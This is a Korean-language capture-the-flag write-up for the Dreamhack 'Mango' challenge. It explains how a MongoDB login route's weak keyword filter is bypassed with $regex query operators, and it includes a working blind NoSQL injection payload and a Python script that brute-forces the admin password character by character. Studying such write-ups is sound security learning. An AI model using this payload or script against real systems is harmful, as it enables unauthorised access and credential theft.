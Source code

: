 # Mango

### Overview

[Link (Mango)](https://dreamhack.io/wargame/challenges/90)

**Environment**
```
Language: Javascript
Framework: ExpressJS
Database: MongoDB
```


1. Code Analysis<a href="#1-code-analysis"><sup>[1]</sup></a>
    - main.js
        - Hint
        - `BAN`
        - `filter`
        - `/login`
        - `/`

2. Vulnerability<a href="#2-vunerability"><sup>[2]</sup></a>

    - Blind NoSQL Injection

3. Scenario<a href="#3-scenario"><sup>[3]</sup></a>

4. Payload<a href="#4-payload"><sup>[4]</sup></a>

5. Exploit<a href="#5-exploit"><sup>[5]</sup></a>

6. Conclusion<a href="#5-conclusion"><sup>[6]</sup></a>

---

### 1. Code Analysis

- main.js

    - Hint
    ```
    // flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
    ```
    `Flag`의 위치를 알려주고 있으며, `upw`의 형태 및 조건을 알려주고 있다.

    <br/>

    - `BAN`
    ```js
    const BAN = ['admin', 'dh', 'admi'];
    ```
    이후 `filter`에 사용될 문자열들로, 개인적으로 이 부분에서도 약간의 힌트가 있었다고 생각하였다.  
    `admin`뿐만 아니라 `admi`까지 따로 제시된 것을 보고 정규표현식을 떠올렸다.

    </br>
    
    - `filter`
    ```js
    filter = function(data){
        const dump = JSON.stringify(data).toLowerCase();
        var flag = false;
        BAN.forEach(function(word){
            if(dump.indexOf(word)!=-1) flag = true;
        });
        return flag;
    }
    ```
    파라미터로 전달받은 `data`를 소문자로 변환하고, `BAN` 배열을 확인하여 해당하는 문자열이 있다면 `true`를, 아니라면 `false`를 반환한다.

    <br/>

    - `/login`
    ```js
    app.get('/login', function(req, res) {
        if(filter(req.query)){
            res.send('filter');
            return;
        }
        const {uid, upw} = req.query;

        db.collection('user').findOne({
            'uid': uid,
            'upw': upw,
        }, function(err, result){
            if (err){
                res.send('err');
            }else if(result){
                res.send(result['uid']);
            }else{
                res.send('undefined');
            }
        })
    });
    ```
    `req`로 받은 파라미터를 `filter` 함수를 적용하여 `true`일 경우 화면에 `filter`를 출력하고 동작을 마친다.  
    그렇지 않은 경우 `uid`와 `upw`에 받은 파라미터값을 입력한다.  
    이후 Database `user`에서 변수 `uid`와 `upw`가 DB 내 `uid`, `upw`에 해당하는 값을 하나 찾는다.  
    오류 발생 시 `err`를 출력하고, 결과값이 나온 경우 해당 값의 `uid`를 출력한다.  
    이외의 경우 `undefined`를 출력하여 동작을 종료한다.
    
    </br>
    
    - `/`
    ```js
    app.get('/', function(req, res) {
        res.send('/login?uid=guest&upw=guest');
    });
    ```
    `/login?uid=guest&upw=guest`를 출력한다.  
    `login`페이지의 존재 여부와 해당 페이지로 전달되는 파라미터를 알려주는 페이지이다.  
    해당 값을 URL에 입력하면 쿼리 결과값의 `uid` 부분인 `guest`가 출력된다.

---

### 2. Vunerability
- Blind NoSQL Injection:  
    동적 쿼리를 생성하며, 타입 체크 및 쿼리에 대한 검증이 따로 없다. 필터가 존재하나 약한 필터라 평가된다.
    쿼리에 대한 응답이 아닌, 쿼리에 해당하는 `uid`를 출력해주기에 Blind NoSQL Injection을 이용해 `upw`를 찾아야한다.

---

### 3. Scenario

1. 가용한 정보는 `flag`의 위치, 해당하는 `uid` 문자열과 `upw`의 형태 및 조건, `filter`에 의해 걸러지는 문자열이 있다.

2. 확인된 취약점은 `NoSQL Injection`이다.

3. 공격자 입장에서는 쿼리에 알맞은 질의가 이루어졌는지 확인하는 것만 가능하다.

4. 정규표현식을 이용해 `admin`과 관련한 Payload를 전달하여 `admin`이 출력되는지 확인한다.

5. 이후 Blind SQL Injection처럼 쿼리 반환값을 이용, Brute Force Attack을 수행하여 `Flag`인 `upw`를 알아낸다.

---

### 4. Payload

```
/login?uid[$regex]=ad.in&upw[$regex]=D*
```
`uid`와 `upw` 파라미터를 MongoDB에서 사용되는 정규표현식으로 전달한다.  
전달한 값으로 `uid`는 `admin`의 `m` 자리에 임의의 문자 한개가 포함되는 값, `upw`는 `DH{*}`에서 `D` 이후 임의의 문자열이 추가된 값이다.  
해당 값을 입력하면 `admin`이 출력된다.

---

### 5. Exploit

1. exploit.py
```python
import requests
import string

HOST = input("Host: ")
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''
for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```
`HOST`에 호스트 주소를 입력받는다.  
`upw`에 포함될 수 있는 문자를 `ALPHANUMERIC`에 저장한다.  
익스플로잇에 성공하면 `admin`이 출력되기에 `SUCCESS`에 해당 문자열을 저장한다.  
`flag`를 문자열로 정의하고, 이후 Brute Force Attack에 의해 생성되는 문자열을 저장한다.  
`Flag` 문자열이 32자임을 알고 있으므로 32번의 문자 대조를 실시한다.  
`ALPHANUMERIC`의 문자를 하나씩 `upw` 파라미터에 넣어 정규표현식에 맞는 질의인지 확인하고 `flag`에 문자를 추가해준다.  
동작이 모두 완료되면 `FLAG`값을 알 수 있다.

2. index
![index](/Wargame/Mango/img/index.png)

3. login - guest
![login - guest](/Wargame/Mango/img/login%20-%20guest.png)

4. login - admin(Regular Expression)
![login - admin](/Wargame/Mango/img/login%20-%20admin.png)

5. Execute exploit.py
![exploit](/Wargame/Mango/img/exploit.png)

---

### 6. Conclusion
Dreamhack에서 제공하는 Blind SQL Injection Exploit Code를 접하기 전, 문제에 관해 찾아보고 작성한 코드라 효율성이 상당히 떨어진다.  
ASCII Code로 변환 후 Binary Search를 이용하여 Refactoring이 가능하다.  
시간 복잡도: $O(N)$ -> $O(logN)$  
exploit.py의 시간복잡도는  
(`ALPHANUMERIC`의 개수) x (`upw`의 길이) = $62 * 32 = 1984$  
Refactoring을 거치면  
(log(`ALPHANUMERIC`의 개수)) x (`upw`의 길이) $\approx 6 * 32 = 192$  
시간복잡도가 10배 이상 줄어든 것을 확인 할 수 있다.

---

[_Go to top_ ↑](#mango)